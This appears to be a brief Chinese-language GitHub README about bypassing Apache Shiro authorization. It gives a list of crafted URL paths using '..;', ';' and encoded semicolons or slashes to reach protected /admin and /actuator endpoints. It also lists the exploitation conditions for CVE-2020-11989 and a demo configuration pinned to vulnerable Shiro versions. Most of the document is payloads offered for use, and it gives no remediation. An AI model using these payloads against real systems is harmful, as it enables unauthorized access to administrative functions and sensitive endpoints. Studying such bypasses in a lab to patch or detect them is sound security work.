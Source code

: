 # Shiro 权限绕过 yyds!

环境: > https://github.com/KpLi0rn/ShiroVulnEnv

博客 》 https://www.yuque.com/tianxiadamutou/zcfd4v/emcdeq

```
?  匹配一个字符
*  匹配一个或多个字符
** 匹配一个或多个目录
```

payload

```java
/index/..;/admin/index
/login/..;/admin/index
/index/..;/admin/
/login/..;/admin/
/login/..;/json
/;/json
/actuator/;/env/
/admin/;/xxx
/admin/%3b/xxx
/admin/%252fxxx
/admin/%3Bxx
/admin/%20
```



## CVE-2020-11989

### 利用条件

- Apache Shiro <= 1.5.2
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- - 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### Dem0

```java
map.put("/doLogin", "anon");
map.put("/unauth","user");
map.put("/admin/*", "authc");

<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-web</artifactId>
    <version>1.5.2</version>
</dependency>
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-spring</artifactId>
    <version>1.5.2</version>
</dependency>
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-core</artifactId>
    <version>1.2.4</version>
</dependency>
```
